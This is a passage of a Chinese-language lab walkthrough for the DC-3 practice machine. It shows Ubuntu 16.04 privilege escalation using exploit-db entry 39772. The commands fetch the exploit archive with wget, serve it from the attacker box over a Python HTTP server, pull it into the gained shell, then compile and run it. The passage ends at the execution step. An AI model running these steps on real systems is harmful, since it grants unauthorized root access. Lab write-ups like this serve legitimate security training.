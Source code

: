 对应版本为 Ubuntu 16.04，用 searchsploit 搜索可以利用的漏洞  
root@kalilinux:~# searchsploit Ubuntu 16.04

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXXKsXxMbqZOslP8VFKhyXo0sZDVAicAVHANOXOHgBSzyIcStG6LJtRmiburx0CU7b0ByialNmNxNkibg/640?wx_fmt=png)

搭建一个 Ubuntu16.04 的环境测试后使用 39772 进行提权  
先通过 kali 下载 github 的 39772 文件  
打开 39772 这个文件，可以看到 39772 文件的下载路径；  
路径为：https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXXKsXxMbqZOslP8VFKhyXoQoiciaKH775ZPoj2K8sfejHibVaYsYhHKFkZNZh9IGQxNzDoPfQOgVRjw/640?wx_fmt=png)

由于得到 DC-3 靶机的 shell 内无法下载 github 的 39772 文件；

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXXKsXxMbqZOslP8VFKhyXom6EHNWMnWC3u3wPLWRriaEiccIJicmCpuiciaIgE12kvRBLzozaNLaRBwpQ/640?wx_fmt=png)

使用 kali 进行下载

```
root@kalilinux:~# wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
root@kalilinux:~# unzip 39772
```

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXXKsXxMbqZOslP8VFKhyXoHRmAriasGa1gzd88VY7gu1K9YEbsNkJ338PWeGzxU3SYkJ91piayDJnA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXXKsXxMbqZOslP8VFKhyXoPs5THribHxhweByIuqWibU6rC6OTMm37ntFCoIpoickyMy2QTJDQNHYSQ/640?wx_fmt=png)

kali 中当前路径开启 python.server，供 DC-3 下载 python -m SimpleHTTPServer 9999

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXXKsXxMbqZOslP8VFKhyXof96IJYicVJdTib2MqLibgfZyrX4XhzprWKDlQXNnU8evia5HUBaiae73ibAw/640?wx_fmt=png)

用 python 开启简单的服务器后，在以获得的 DC-3 的 getshell 下载 39772 文件；

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXXKsXxMbqZOslP8VFKhyXolwuvR39AaANHM9FRpMRmJ8U0TrUic74Q86uFvHXezRVsjYicg4ebsaXA/640?wx_fmt=png)

进行提权操作  
解压 exploit.tar 文件；  
命令：tar -xvf exploit.tar

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXXKsXxMbqZOslP8VFKhyXoSk7w2FEL6B4TYCuPHvV0Aoexv4C2LD9FzpX9BibLm2EnGh3spc5BWZg/640?wx_fmt=png)

编译脚本  
命令：

```
chmod +x compile.sh
./compile.sh
```

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXXKsXxMbqZOslP8VFKhyXojXJlRibZ1khMfNwySToKlEzPRr5WRJuR0e4SvmFbAiaDUjwB0rb8wnGA/640?wx_fmt=png)

执行提权脚本

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXXKsXxMbqZOslP8VFKhyXoubOQrCIQdosZRUz8bUiarwwRS9vuKsDkvRoNElu3cncLcw9OMYn4viaA/640?wx_fmt=png)
